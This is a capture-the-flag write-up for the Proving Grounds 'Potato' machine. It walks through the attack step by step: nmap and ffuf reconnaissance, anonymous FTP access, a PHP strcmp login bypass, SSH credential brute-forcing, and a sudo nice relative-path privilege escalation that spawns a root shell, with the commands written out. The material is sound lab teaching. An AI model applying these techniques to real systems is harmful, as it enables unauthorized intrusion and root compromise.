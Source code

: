 ```yaml
---
title: "Potato"
date: 2024-11-10
draft: false
summary: "Writeup for the Potato proving grounds CTF challenge."
tags: ["linux", "hardcoded creds", "sudo"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/potato/4.webp"
  caption: "Potato Proving Grounds Challenge"
  alt: "Potato cover"
platform: "Misc"
---
```


Potato is a CTF challenge on **proving grounds** that require us to get root access on the system and capture the flag from the *root* directory.
<!--more-->
To access the lab, visit the link given below:
- https://portal.offsec.com/labs/play

## Recon

I performed an **nmap** aggressive scan to find information about the target.

```shell
nmap -A -p- TARGET -oN potato.nmap --min-rate 10000
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 2112     | ftp         |

![](https://cdn.ziomsec.com/potato/1.webp)

## Initial Foothold

**nmap**'s aggressive scan detected ftp anonymous login on the target using `nse` scripts - so I logged into the ftp server and found 2 files.

```shell
ftp -P 2112 TARGET
# username: anonymouse | password: anonymous
> get index.php.bak index.php.bak
> get welcome.msg welcome.msg
```

![](https://cdn.ziomsec.com/potato/2.webp)

The `index.php.bak` file revealed login credentials for *admin*.

```shell
cat ftp/index.php.bak
```

![](https://cdn.ziomsec.com/potato/3.webp)

I then visited the web application but found nothing on the home page.

![](https://cdn.ziomsec.com/potato/4.webp)

I performed a web directory brute force using **ffuf** to find hidden directories and found 2 directories, `admin` and `potato`.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -mc 200,301
```

![](https://cdn.ziomsec.com/potato/5.webp)

I visited both the endpoints and found a login panel at */admin*

![](https://cdn.ziomsec.com/potato/6.webp)

![](https://cdn.ziomsec.com/potato/7.webp)

I tried logging in using the username and password that I had found but failed.

![](https://cdn.ziomsec.com/potato/8.webp)

The login mechanism used `strcmp` to check whether the username and password were correct.  So I looked for ways to bypass `strcmp`.

![](https://cdn.ziomsec.com/potato/9.webp)

![](https://cdn.ziomsec.com/potato/10.webp)

![](https://cdn.ziomsec.com/potato/11.webp)

Hence if I modified the password parameter, I could potentially bypass the security check. To try it out, I fired up **burp suite** and captured a login request. I then changed the `password` parameter as show below and forwarded the request.

![](https://cdn.ziomsec.com/potato/12.webp)

Hence I got access to the admin area but found nothing useful here.

![](https://cdn.ziomsec.com/potato/13.webp)

As a last resort, I tried to bruteforce **ssh** credentials using **nmap** and succeeded.

```shell
nmap -p 22 --script=/usr/share/nmap/scripts/ssh-brute.nse TARGET
```

![](https://cdn.ziomsec.com/potato/14.webp)
![](https://cdn.ziomsec.com/potato/15.webp)

I used these credentials to log into the system.

```shell
ssh webadmin@TARGET
# enter password
```

![](https://cdn.ziomsec.com/potato/16.webp)

## Privilege Escalation

I downloaded the **linux smart enumeration** script on the target and gave it executable permission.

```shell
$ wget "http://KALI/lse.sh"
$ chmod +x lse.sh
```

![](https://cdn.ziomsec.com/potato/17.webp)

I then ran the script to find misconfigurations on the system.

![](https://cdn.ziomsec.com/potato/18.webp)

![](https://cdn.ziomsec.com/potato/19.webp)

![](https://cdn.ziomsec.com/potato/20.webp)

The script revealed I could run a particular command as **sudo** without any password.

![](https://cdn.ziomsec.com/potato/21.webp)

I looked for ways to exploit the **nice** binary on **gtfobins** and tried it, however, it failed.

```shell
sudo nice /bin/sh
```

![](https://cdn.ziomsec.com/potato/22.webp)

![](https://cdn.ziomsec.com/potato/23.webp)

Hence, I could only execute the entire command and not a single binary. Also, I looked inside the **`/notes`** directory and found shell scripts in it. However, due to lack of privilege, I couldn't add or modify any script here. So I used relative path to make it execute a shell script from my home directory.

```shell
$ echo "#/bin/bash" > shell.sh
$ echo "bash -i" >> shell.sh
$ chmod +x shell.sh
$ sudo /bin/nice /notes/../home/webadmin/shell.sh
```

![](https://cdn.ziomsec.com/potato/24.webp)

This approach made me a **root** user. I then captured the flag from the `/root` directory.

![](https://cdn.ziomsec.com/potato/25.webp)

## Closure

Here's a short summary of how I pwned **potato**:
- I found a login panel backup file on the ftp server.
- This file revealed login credentials for admin, however, the admin panel did not provide anything useful.
- Since FTP and HTTP did not reveal anything useful, I used **nmap**'s `ssh-brute` script to brute force **ssh** credentials.
- After logging in, I found out that *webadmin* was allowed to run scripts inside */notes* directory as sudo with **nice**.
- Since I did not have permissions to write inside the scripts present in the *notes* directory, I used relative path to execute a script present on my home directory to spawn an interactive bash shell as root.
- Finally, I captured the flag from the *root* directory.

That was the complete walkthrough of **potato**. Hope you learnt something new!
Happy Hacking :)

---
